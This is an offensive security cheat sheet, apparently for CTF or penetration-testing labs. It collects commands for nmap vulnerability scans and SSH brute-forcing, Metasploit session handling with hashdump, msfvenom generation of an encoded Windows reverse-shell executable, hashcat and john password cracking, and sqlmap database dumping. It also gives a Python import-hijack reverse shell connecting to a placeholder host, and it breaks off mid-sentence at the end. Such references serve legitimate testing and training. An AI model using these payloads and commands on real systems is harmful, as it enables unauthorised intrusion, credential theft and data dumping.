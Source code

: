 
## General Linux stuff


### path_poisoning

`export PATH=<directory_with_poison>:$PATH`

### SUDO

#### Check what commands can be run as sudo

`sudo -l`

#### Running commands as other users with sudo

`sudo -u <user> <command>`

## Nmap

### Check for vulns with scan

```nmap -sV -vv --script="vuln" <ip>```

### Enumerate SMB shares

```nmap -p <port> --script=smb-enum-shares.nse,smb-enum-users.nse <ip>```

### List mounts available on a NFS

```nmap -p <port> --script=nfs-ls,nfs-statfs,nfs-showmount <ip>```

### Bruteforce SSH with script engine

`nmap <host> -p 22 --script ssh-brute --script-args userdb=users.txt,passdb=passwords.txt`

## Metasploit

### Start Metasploit

```msfconsole -q```

### List sessions

```sessions```

### Search for and use module from nmap vuln scan

```search <vuln>```

```use <index>```

### Change reverse shell to metapreter shell

```use post/multi/manage/shell_to_metapreter```

```set session <session id of shell>```

Change to metapreter session:

```sessions -i <session id>```

#### Useful metapreter commands

```shell``` - Gain interactive shell on target box

```hashdump``` - Dump password hashes of users

```upload <src file> <dst file>``` - Upload file to target

```download <src file> <dst file>``` - Download file from target

```sysinfo``` - Get info on target box

```execute -f <file>``` - Execute file on target box

### Generate reverse shell as windows executable

```msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -f exe -o <.exe>```

## Hashcat

### Identify Hash

```hash-identifier <hash>```

### Common hash types

```text
900   | MD4                                              | Raw Hash
0     | MD5                                              | Raw Hash
100   | SHA1                                             | Raw Hash
1300  | SHA2-224                                         | Raw Hash
1400  | SHA2-256                                         | Raw Hash
10800 | SHA2-384                                         | Raw Hash
1700  | SHA2-512                                         | Raw Hash
17300 | SHA3-224                                         | Raw Hash
17400 | SHA3-256                                         | Raw Hash
17500 | SHA3-384                                         | Raw Hash
17600 | SHA3-512                                         | Raw Hash
6000  | RIPEMD-160                                       | Raw Hash
600   | BLAKE2b-512                                      | Raw Hash
11700 | GOST R 34.11-2012 (Streebog) 256-bit, big-endian | Raw Hash
11800 | GOST R 34.11-2012 (Streebog) 512-bit, big-endian | Raw Hash
6900  | GOST R 34.11-94                                  | Raw Hash
5100  | Half MD5                                         | Raw Hash
18700 | Java Object hashCode()                           | Raw Hash
17700 | Keccak-224                                       | Raw Hash
17800 | Keccak-256                                       | Raw Hash
17900 | Keccak-384                                       | Raw Hash
18000 | Keccak-512                                       | Raw Hash
21400 | sha256(sha256_bin($pass))                        | Raw Hash
6100  | Whirlpool                                        | Raw Hash
10100 | SipHash                                          | Raw Hash
21000 | BitShares v0.x - sha512(sha512_bin(pass))        | Raw Hash
```

### Crack MD5 hash with rockyou

```hashcat -a 0 -m 0 <hash/hashfile> /usr/share/wordlists/rockyou.txt --show```

## Gobuster

### List directories and files

```gobuster dir -u http://<ip>:<port> -w <wordlist> -x <file types>```

## SQLMap

### Discover database names

```sqlmap -r <request file> --dbs```

### Show tables in database

```sqlmap -r <request file> -D <database name> --tables```

### Enum table in database

```sqlmap -r <request file> -D <database name> -T <table name> --dump```

## Windows

### Stop a service

```sc stop <service name>```

### Start a service

```sc start <service name>```

## Useful python stuff

### Hijacking imports

If a target has a python file with elevated privs that imports files, we can create a new file (contents below) with the name of the imported file to get a shell as whoever has the privs for the file.

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<host>",<port>))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

## John

### gpg

`gpg2john <gpg_key_file> > hash`

`john --wordlist=/path/to/wordlist hash`

### ssh

`python /usr/share/john/ssh2john.py <ssh_key_file> > hash`

`john --wordlist=/path/to/wordlist hash`

## Windows

### SeImpersonationPrivilege

Allows a user to 
